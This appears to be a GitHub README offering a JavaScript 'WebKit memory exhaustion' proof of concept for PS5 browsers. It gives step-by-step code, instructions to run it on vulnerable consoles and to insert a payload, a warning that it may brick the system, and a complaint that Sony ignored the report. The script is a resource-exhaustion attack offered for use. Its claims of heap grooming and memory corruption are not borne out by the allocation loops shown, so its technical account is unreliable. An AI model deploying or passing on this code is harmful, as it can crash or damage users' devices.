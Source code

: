 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Exhaustion PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


**A Message to Sony**


Sony I have reported this and got dismmised and I have provided enough proof it with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 
